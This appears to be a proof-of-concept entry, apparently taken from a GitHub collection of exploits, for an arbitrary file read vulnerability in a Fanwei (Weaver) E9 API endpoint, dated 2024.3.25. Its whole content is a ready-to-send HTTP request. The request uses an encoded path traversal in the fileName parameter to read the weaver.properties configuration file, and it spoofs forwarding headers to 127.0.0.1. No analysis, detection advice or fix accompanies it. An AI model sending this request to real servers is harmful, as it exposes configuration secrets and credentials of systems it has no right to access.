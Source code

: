 # fanwei_DevelopAllNameValue2_fileread

from: https://github.com/wy876/POC/blob/main/%E6%B3%9B%E5%BE%AEgetE9DevelopAllNameValue2%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
2024.3.25 @2

```
GET /api/portalTsLogin/utils/getE9DevelopAllNameValue2?fileName=portaldev_%2f%2e%2e%2fweaver%2eproperties HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: */*
Connection: Keep-Alive
X-Forwarded-For: 127.0.0.1
X-Originating: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
